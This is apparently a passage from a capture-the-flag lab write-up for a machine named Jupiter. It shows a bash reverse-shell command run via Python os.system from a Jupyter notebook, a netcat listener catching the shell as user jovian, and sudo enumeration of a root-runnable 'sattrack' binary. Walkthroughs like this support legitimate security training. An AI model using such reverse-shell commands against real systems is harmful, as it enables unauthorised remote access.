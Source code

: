 #### Shell as Jovian

We now have a shell running as `jovian` and we are still in the `science` group. We can use the same method as before to get a reverse shell as `jovian`:

Jupyter Notebook Command

```python
os.system("bash -c \"bash -i >& /dev/tcp/10.10.14.226/9001 0>&1\"")
```

Netcat Listener

```console
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.226] from (UNKNOWN) [10.10.11.216] 40112
bash: cannot set terminal process group (3752): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jovian@jupiter:/opt/solar-flares$ id
id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
```

### Enumeration as Jovian

Enumeration part 3, this time as `jovian`. Running `sudo -l` we can see that we can run `/usr/local/bin/sattrack` as `root` without a password.

```console
jovian@jupiter:/opt/solar-flares$ sudo -l
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

### Sattrack

I don’t know what `sattrack` is, and a quick google shows it may be related to satellite tracking. Trying to run `sattrack` gives us an error:

```console
jovian@jupiter:/tmp/tmpy$ /usr/local/bin/sattrack 
Satellite Tracking System
Configuration file has not been found. Please try again!
```

#### Sattrack Config
